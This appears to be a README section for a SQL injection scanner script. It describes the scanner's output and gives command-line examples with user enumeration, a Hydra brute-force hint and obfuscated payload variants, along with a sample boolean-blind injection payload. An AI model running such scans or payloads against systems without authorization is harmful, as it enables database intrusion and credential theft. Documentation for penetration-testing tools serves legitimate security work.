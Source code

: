 ## Output Guide

**Setup summary** - risk, threads, timeouts, thresholds, discovered forms/params.

**Status ticker** - single line, updated every \~0.5s:

```
[~] elapsed 37.4s | total requests sent 892 | live hits 3
```

**Live hits** - streaming & copy‑pastable payloads:

```
[hit] POST / field=username user=example | Δlen | payload: example' AND '1'='1'-- -
```

Each line shows method, path, field, (optional) user, **evidence**, and a **sample payload**.

**Round summary** - per round counters & elapsed:

```
[run] 9880 req (hits:24, err:0)   [time] 2080 req (hits:0, err:0) | elapsed 148.3s | total requests sent 12499
```

**Findings (concise)** - after confirmation pass:

```
=== Findings (concise) ===
- boolean-blind at POST http://<TARGET_IP>/ field 'username' [user:example]: Δlen 1234->2143 – payload: example' AND '1'='1'-- -
==========================
```

**Interrupt** - `Ctrl+C`:

```
[!] Interrupted by user. Elapsed: 62.4s
```

## Examples

**1) Default scan**

```bash
python3 sqli_test.py -u http://<TARGET_IP> -r 3
```

**2) Enum + use top 5 users in all form probes + Hydra hint**

```bash
python3 sqli_test.py -u http://<TARGET_IP> -r 3 \
  --user-enum --use-users 5 --hydra-hint
```

**3) Aggressive obfuscation variants**

```bash
python3 sqli_test.py -u http://<TARGET_IP> -r 4 --allow-or --variants 10
```
